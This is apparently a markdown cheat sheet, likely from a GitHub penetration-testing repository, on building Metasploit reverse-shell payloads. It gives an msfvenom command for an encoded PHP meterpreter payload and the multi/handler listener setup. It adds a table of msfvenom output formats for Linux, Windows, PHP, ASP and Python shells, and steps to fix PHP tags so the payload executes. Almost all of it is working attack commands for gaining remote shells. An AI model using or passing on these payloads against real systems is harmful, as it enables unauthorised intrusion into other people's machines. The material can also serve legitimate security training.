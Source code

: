 ### 🔁 Encode Payloads
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f raw -e php/base64
```

---

### 🎯 Multi/Handler (Listener)
```bash
use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.10.x.x
set LPORT 7777
run
```

---

### 📦 Other msfvenom Formats

| OS       | Command |
|----------|---------|
| Linux    | `-f elf > shell.elf` |
| Windows  | `-f exe > shell.exe` |
| PHP      | `-f raw > shell.php` |
| ASP      | `-f asp > shell.asp` |
| Python   | `-f raw > shell.py` |

> All payloads above are reverse shells and require a running listener (`multi/handler`) on the attack machine.

---


### 🖼️ Fixing the PHP Payload File

When generating a PHP payload using `msfvenom`, the output often lacks a valid PHP opening tag and closing tag.

#### 🔴 Initial Output (Incorrect)
The payload is commented out:
![Incorrect PHP Tag](https://github.com/user-attachments/assets/655cd784-ffac-4af2-87c2-064e0017f06e)

#### ✅ Corrected Start Tag
You must replace it with a valid PHP start tag:
![Correct PHP Start](https://github.com/user-attachments/assets/590ccf00-8651-4ddf-b872-2d3e136a1254)

#### ✅ Add a Closing Tag
Also, ensure the file ends with:
![PHP End Tag](https://github.com/user-attachments/assets/6425f383-d63c-4059-85d9-9ed3ae82366f)
